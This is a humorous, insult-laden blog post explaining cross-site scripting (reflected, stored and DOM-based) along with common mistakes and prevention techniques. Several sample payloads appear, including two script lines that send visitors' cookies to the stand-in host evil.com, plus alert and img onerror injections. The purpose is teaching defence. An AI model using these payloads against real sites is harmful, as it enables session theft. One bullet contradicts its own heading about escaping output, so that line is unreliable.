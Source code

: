 ```yaml
---
title: "XSS: So Easy Grandma Could Hack Your Mom's Facebook (💀🙏)"
date: "2025-04-14"
tags: [XSS]
description: "A mind-blowing blog post about XSS, written for chaotic Gen Z engineers. Prepare for the roast of your life. You're welcome."

---
```


**Yo, what UP, future overlords of the interwebs!** Let's talk XSS. Because apparently, some of you *still* think escaping user input is optional. Like, bruh, are you *trying* to get pwned? Seriously, if your code is vulnerable, I'm blaming your mom for not teaching you better. This ain't your Minecraft server; this is the real world, and skiddies with Tamagotchis are trying to steal your users' data. Let's dive into the glorious trainwreck that is Cross-Site Scripting.

**What even IS XSS? (For the uninitiated… or the just plain dumb)**

Okay, imagine you're running a lemonade stand. People come up and tell you what they want on their sign. A normal person says "Best Lemonade Ever!" but some little gremlin comes up and says `<script>window.location='http://evil.com/?cookie='+document.cookie</script>`. If you just print that on the sign as is, congratulations, you've now sent everyone who looks at your lemonade stand sign to evil.com with *their* cookie information. Congrats, you just XSS'd lemonade.

That, my friends, is XSS in a nutshell. Someone injects malicious code (usually JavaScript, but sometimes even CSS can be weaponized – think `background: url("javascript:alert('BOOM!');")`) into your website, and your website stupidly executes it.

![Doge XSS Meme](https://i.kym-cdn.com/photos/images/newsfeed/000/234/765/b7e.jpg)

(Accurate representation of your code before reading this blog post. You're welcome.)

**The Three Stooges of XSS: Reflected, Stored, and DOM-Based**

We've got three flavors of XSS to keep you up at night:

1.  **Reflected XSS (The "Oops, I Echoed the Input" Special):** This is the most common and usually the easiest to exploit. The attacker sends a malicious payload in a request (e.g., in a URL parameter), and the server immediately echoes it back in the response *without proper escaping*. It's like when your ex texts you back immediately after you break up with them. Pathetic, but potentially damaging.

    Example:

    `https://example.com/search?q=<script>alert('YOU ARE PWNED!')</script>`

    If `example.com` just prints the value of the `q` parameter directly into the HTML, boom. XSS.

    ASCII Diagram:

    ```
    [Attacker] --> Malicious URL  --> [Server] --> [Response with Unescaped Payload] --> [Victim Browser executes script]
    ```

2.  **Stored XSS (The "I Put it in the Database!" Fiasco):** This is where things get REAL dangerous. The attacker injects malicious code, which is then stored in the application's database or other persistent storage. When other users access the data, the malicious code is executed. Think of it as planting a virus in the school's computer lab. Everyone gets infected.

    Imagine a forum where users can post comments. If you don't sanitize the input, someone could post a comment containing `<script>document.location='http://evil.com/?cookie='+document.cookie</script>`. Every time someone views that comment, they get redirected. GG.

    ASCII Diagram:

    ```
    [Attacker] --> Malicious Data --> [Server] --> [Database] --> [Server] --> [Response with Unescaped Payload] --> [Victim Browser executes script]
    ```

3.  **DOM-Based XSS (The "Client-Side Chaos" Edition):** This one's trickier to spot because the vulnerability lies in the client-side JavaScript code, not on the server. The attacker manipulates the DOM (Document Object Model) to execute malicious code.

    For example, a website might use `document.location.hash` to get a parameter from the URL and then use it to update the page content. If the website doesn't properly sanitize the hash value, an attacker can inject malicious JavaScript.

    Imagine a website that dynamically changes the content of a paragraph based on the URL hash. The attacker can send the following url:

    `https://example.com/#<img src=x onerror=alert('XSS!')>`

    If the script doesn't properly handle the input, it will attempt to load the image from `x`, which doesn't exist and trigger the `onerror` event, which calls `alert('XSS!')`.

    ASCII Diagram:

    ```
    [Attacker] --> Malicious URL --> [Victim Browser] --> [Malicious JS Execution on Client Side]
    ```

**Real-World War Stories (aka "Things I Learned the Hard Way")**

*   **The Case of the Unfiltered Username:** Once upon a time, a startup (that shall remain nameless, but rhymes with "Sninstagram") didn't sanitize usernames. Guess what happened when someone set their username to `<script>steal_all_the_cookies()</script>`? Chaos. Utter chaos. Users logging in were immediately redirected to a fake login page designed to steal their credentials. Moral of the story: never trust user input. EVER.

*   **The Great Forum Debacle:** A popular gaming forum allowed users to embed YouTube videos using BBCode. Little did they know, someone found a way to inject JavaScript into the `src` attribute of the embedded video. For weeks, unsuspecting gamers were Rickrolled *and* had their cookies stolen. Double whammy!

*   **The Shopping Cart Catastrophe:** An e-commerce site allowed users to add notes to their orders. You guessed it, they didn't sanitize the notes. An attacker injected JavaScript that redirected customers to a fake payment page, effectively stealing their credit card information. Talk about a Black Friday deal… for the attacker.

**Common F\*ckups (aka "You're Doing It Wrong!")**

Alright, let's get real. Here are some of the dumbest mistakes I've seen (and probably made myself at some point):

*   **Thinking "It Won't Happen To Me":** Yeah, sure, Karen. That's what everyone says until they're staring at a defaced website. Security is everyone's responsibility, not just the "security team" (if you even *have* one).
*   **Relying on Client-Side Validation:** Client-side validation is like putting a lock on a cardboard box. It looks nice, but it's easily bypassed. ALWAYS validate and sanitize data on the server.
*   **Using Blacklists Instead of Whitelists:** Blacklists are incomplete by nature. An attacker will always find a way to bypass them. Whitelists, on the other hand, only allow known-good characters and inputs.
*   **Escaping Output Instead of Input:** You should be escaping **output** because you can't always predict where the data will be used, and different contexts need different escaping.
*   **Not Using a Content Security Policy (CSP):** CSP is your last line of defense. It tells the browser which sources are allowed to load resources from, preventing the execution of malicious JavaScript from untrusted sources. Use it. Love it. Live it.
*   **Assuming Your Framework Is Magic:** Your framework might provide some basic XSS protection, but it's not a silver bullet. You still need to understand the underlying principles and implement proper security measures. React? Angular? Vue? They help, but they won't save you from your own stupidity.

**Prevention: Don't Be a Noob**

*   **HTML Encoding:** Encode characters like `<`, `>`, `&`, `"` and `'` to their HTML entities (e.g., `<` becomes `&lt;`). This prevents them from being interpreted as HTML tags.
*   **JavaScript Encoding:** When outputting data within JavaScript code, use JavaScript encoding to escape special characters.
*   **URL Encoding:** Encode data before including it in a URL.
*   **Use a Template Engine:** Template engines like Jinja2, Twig, or Handlebars often provide automatic escaping features. Use them wisely.
*   **Content Security Policy (CSP):** Configure your CSP to restrict the sources from which your website can load resources. This can prevent the execution of malicious JavaScript from untrusted sources.
*   **Regular Security Audits:** Periodically audit your code for potential vulnerabilities. Use automated scanning tools and, if possible, hire a professional security firm.
*   **Educate Your Team:** Make sure everyone on your team understands the basics of XSS and how to prevent it. Host security training sessions and encourage developers to stay up-to-date on the latest threats.

**Conclusion: Don't Be the Next Headline**

Look, XSS is a serious issue. It can lead to data breaches, identity theft, and reputational damage. But it's also entirely preventable. By understanding the different types of XSS vulnerabilities, following secure coding practices, and implementing proper security measures, you can protect your website and your users.

So, go forth and code responsibly! And remember: if you get pwned, don't come crying to me. I'll just laugh and say, "I told you so." 💀🙏

![Facepalm Meme](https://i.imgflip.com/1h5h0i.jpg)

(Me when I see your vulnerable code. Seriously, get it together.)

Now, go fix your code, you absolute legends! And may your future be filled with secure coding practices and zero XSS vulnerabilities. Peace out! ✌️
